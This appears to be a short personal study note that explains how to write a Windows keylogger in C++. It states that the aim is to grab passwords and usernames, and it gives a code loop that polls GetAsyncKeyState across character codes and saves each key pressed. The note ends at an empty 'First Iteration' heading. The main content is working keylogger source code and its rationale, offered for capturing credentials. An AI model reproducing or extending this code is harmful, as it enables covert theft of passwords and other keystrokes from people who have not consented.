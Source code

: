 **Title:** ILY - Keylogger
**Tags:** [[ILY - Easy]]
**Topics:**

---
# ILY - Keylogger
# General
## startLogging()
Is not possible to know which key has been pressed after it happened, so the only way to know it is to check all possible valid keys in the ASCII symbols every time. Due to or goal, grab passwords and usernames, the last valid symbol is the "¡" that has the number 173.

Now that we are checking all the possible characters, its important to determine how are we going to get that "alarm" informing us that a key in the keyboard has been pressed.
Theres when the `GetAsyncKeyState()` comes in place.
`GetKeyState()` will return that a key has been pressed only if it happens in the same "instant", otherwise it will not detect it. This isn't really convinient in our case so we will use
```c++
for (char key = 8; key<=173; key++) {
	if (GetAsyncKeyState(key) == 0xFFFF8001) {
	    if (not specialKey(key)) {
            string str(1, key);
            save(str);
        }
    }
}
```

# First Iteration
